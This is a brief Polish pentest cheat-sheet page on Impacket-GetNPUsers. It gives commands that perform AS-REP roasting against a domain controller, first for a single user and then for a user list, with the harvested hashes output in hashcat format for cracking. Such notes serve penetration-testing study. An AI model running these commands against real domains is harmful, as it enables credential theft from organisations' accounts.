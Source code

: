 ```yaml
---
layout:
  title:
    visible: false
  description:
    visible: false
  tableOfContents:
    visible: false
  outline:
    visible: false
  pagination:
    visible: false
---
```


# Impacket-GetNPUsers

```
Impacket-GetNPUsers -dc-ip 10.20.10.5 cyber.local/fredf
```

lub gdy sprawdzamy kilku użytkowników i mamy stworzony plik users z nazwami użytkowników

{% code overflow="wrap" %}
```python
Impacket-GetNPUsers -dc-ip 10.20.10.5 -no-pass -format hashcat -userfile users cyber.local/
```
{% endcode %}
